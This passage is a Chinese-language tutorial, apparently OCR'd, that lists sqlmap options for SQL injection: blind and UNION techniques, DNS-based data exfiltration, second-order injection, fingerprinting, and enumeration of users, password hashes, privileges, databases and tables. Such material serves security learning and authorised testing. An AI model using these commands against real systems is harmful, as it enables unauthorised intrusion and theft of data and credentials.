 例如：

sqlmap -u “存在注入点的URL" --technique B --current-db #利用基于布尔的盲注对注入点进行SQL注入探测。

**1、sqlmap设置时间盲注延迟时间**
例如： sqlmap -u "存在注入点的URL" --time-sec 3 --current-db

**2、sqlmap设置UNION字段数**
sqlmap -u “存在注入的URL" --union-cols 12-18 --current-db

**3、sqlmap设置union查询表**
sqlmap -u “存在注入的URL" --technique u --union-form users --current-db -v3

**4、sqlmap设置DNS攻击**
定义：通过设置DNS流量来突破限制 --dns-domain "dns服务器" 需要用户自身具有一个开放53端口的DNS服务器，通过DNS流量来获得web应用程序中数据内容。

**5、sqlmap设置二次注入**
sqlmap中可以设置二次注入的结果页面

sqlmap -u "存在注入的URL" --second-order

**6、sqlmap识别指纹**
sqlmap -u "存在注入的URL" --fingerprint -f

探测目标指纹信息（--fingerprint -f)

**7、sqlmap检索DBMS Banner**
获取后端数据库Banner信息 --banner 或者 -b

**8、sqlmap检索DBMS当前用户**
获取DBMS当前用户 --current-user

**9、sqlmap检索DBMS当前数据库**
获取当前数据库名 --current-db

**10、sqlmap检索DBMS当前 主机名**
--hostname

**11、sqlmap探测当前用户DBA**
--is-dba 探测当前用户是否是数据库管理员

**12、sqlmap 枚举DBMS用户名**
--user 获取DBMS所有用户

**13、sqlmap枚举DBMS的用户名密码**
--password 获取用户名密码

mysql -h IP地址 -u root -p #MySQL数据库登录

**14、sqlmap枚举DBMS权限**
--privileges--role（角色）

例如：sqlmap -u "存在注入的URL" --technique -u -v3 --batch --privileges

**15、sqlmap列举数据库名**
--dbs 列举数据库名称

**16、sqlmap枚举数据库表**
--tables 枚举表名 --> 制定具体数据库 -D 数据库名

--exclude-sysdbs
